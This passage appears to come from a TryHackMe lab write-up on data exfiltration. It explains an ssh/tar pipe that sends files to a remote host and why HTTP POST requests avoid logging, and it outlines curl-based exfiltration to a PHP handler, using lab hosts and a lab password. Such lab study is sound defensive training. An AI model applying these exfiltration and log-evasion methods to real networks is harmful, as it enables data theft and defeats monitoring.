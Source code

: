 3. `ssh thm@jump.thm.com "cd /tmp/; tar xpf -"` This part of the command uses the `ssh` command to establish an SSH connection. Here's what's happening:
    - `ssh thm@jump.thm.com` Initiates an SSH connection to the remote server `jump.thm.com` with the username `thm`.
    - `"cd /tmp/; tar xpf -"` This part is executed on the remote server after the SSH connection is established. It changes the working directory to `/tmp`, and then extracts a tarball from standard input. The `p` options is used to preserve file permissions, ownership, and timestamps when extracting files. This ensures that the extracted files retain their original attributes.

![SSH transmission](ssh-transmission.png)

## 5. HTTP Data Exfiltration

### 5.1 HTTP POST Request

Data Exfiltration through HTTP(S) is one of the best methods, as it hard to distinguish between legitimate and malicious HTTP traffic. We will be using the **POST HTTP request**, as with a **GET HTTP request**, all parameters are registered into the log file. POST HTTP requests:
- Are never cached.
- Do not remain in the browser history.
- Cannot be bookmarked.
- Have no restrictions on data length.

Let's login into `web.thm.com` and inspect the Apache log file with 2 HTTP Requests:

```shell
ssh thm@web.thm.com
# password: tryhackme

sudo cat /var/log/apache2/access.log
# 192.168.0.133 - - [29/Apr/2022:11:41:54 +0100] "GET /example.php?flag=VEhNe0g3N1AtRzM3LTE1LWYwdW42fQo= HTTP/1.1" 200 495 "-" "curl/7.68.0"
# 192.168.0.133 - - [29/Apr/2022:11:42:14 +0100] "POST /example.php HTTP/1.1" 200 395 "-" "curl/7.68.0"
```
The first line is a **GET** request which includes a `file` parameter with exfiltrated data. If we decode this data, we will get the 🚩 required for the first question. The second line is a **POST** request to `/example.php`, in which we sent the same `base64` encoded data, but it does not show what data was transmitted. 

We can decode the data needed for the flag as follows:

![First flag](first-flag.jpg)

### 5.2 HTTP Data Exfiltration

The steps to perform HTTP exfiltration are:
1. We need an HTTP webserver with a data handler (a PHP page that handles the POST request sent to the server). In our case, `web.thm.com` and `contact.php`, respectively.
2. We also need a method to send the data; we will send it via `curl`.
3. A way to receive and store the data; `contact.php` will receive the POST request and store it under the `/tmp` directory.
4. Once the data is stored, we will log into the web server and grab it.

